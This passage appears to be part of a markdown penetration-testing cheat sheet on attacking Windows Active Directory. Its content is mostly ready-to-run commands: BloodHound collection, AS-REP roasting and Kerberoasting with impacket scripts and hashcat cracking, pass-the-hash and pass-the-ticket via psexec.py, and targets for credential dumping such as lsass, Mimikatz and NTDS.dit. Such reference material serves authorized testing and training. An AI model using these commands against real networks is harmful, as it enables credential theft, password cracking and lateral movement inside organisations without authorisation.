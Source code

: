#### 🔹 With BloodHound (Graph-based AD Mapping)

```powershell
SharpHound.exe --CollectionMethods All
```

Analyze with Neo4j: visualize users → groups → admin paths.

🧠 **Focus on:**

* Users with SPNs (for Kerberoasting)
* Machines with admin rights
* Delegation (unconstrained/constrained)
* Trust relationships (external/domain)

***

### III. 💣 Credential Attacks

#### 🧩 1. **AS-REP Roasting (No Pre-Auth)**

```bash
GetNPUsers.py corp.local/ -dc-ip $IP -no-pass -usersfile users.txt
hashcat -m 18200 hash.txt wordlist.txt
```

> Users with `DONT_REQ_PREAUTH` → offline password cracking.

***

#### 🧩 2. **Kerberoasting**

```bash
GetUserSPNs.py corp.local/user:pass -dc-ip $IP -request
hashcat -m 13100 kerb_hashes.txt wordlist.txt
```

> Extract TGS for service accounts → offline crack → reuse password.

***

#### 🧩 3. **Pass-the-Hash / Pass-the-Ticket**

```bash
psexec.py corp.local/user@dc.corp.local -hashes :NTLMHASH
```

or

```bash
export KRB5CCNAME=ticket.ccache
psexec.py -k -no-pass corp.local/user@target
```

***

#### 🧩 4. **Credential Dumping**

* **Windows:** `lsass.exe` → Mimikatz, Procdump
* **Linux (Samba):** `/var/lib/samba/private/secrets.tdb`
*   **Offline:** NTDS.dit + SYSTEM hive
